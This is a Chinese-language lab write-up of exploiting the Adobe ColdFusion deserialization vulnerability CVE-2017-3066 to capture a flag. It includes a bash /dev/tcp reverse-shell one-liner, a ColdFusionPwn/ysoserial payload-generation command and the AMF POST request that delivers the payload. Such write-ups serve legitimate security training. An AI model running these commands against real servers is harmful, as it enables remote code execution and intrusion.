 # Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）by [anonymity3712](https://github.com/anonymity3712)

## 漏洞原理

Adobe ColdFusion 是美国 Adobe 公司的一款动态Web服务器产品，其运行的 CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

## writeup

启动靶场

![](./20200516152000.png)

反弹shell的poc需要在 http://www.jackson-t.ca/runtime-exec-payloads.html 网站进行转码

反弹Shell格式

```
bash -i >& /dev/tcp/ip/port 0>&1
```

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```

攻击机执行

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 '编码后的反弹shell-poc' getshell.ser
```

执行后会生成一个getshell.ser文件

![](./20200516152446.png)

另起一终端监听端口

启动burp ， 上传ser文件

![](./20200516152827.png)

![](./20200516152929.png)

再添加HTTP头部

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:端口
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853
```
发送数据包

![](./20200516152929.png)

反弹shell，获取到flag

![](./20200516154357.png)
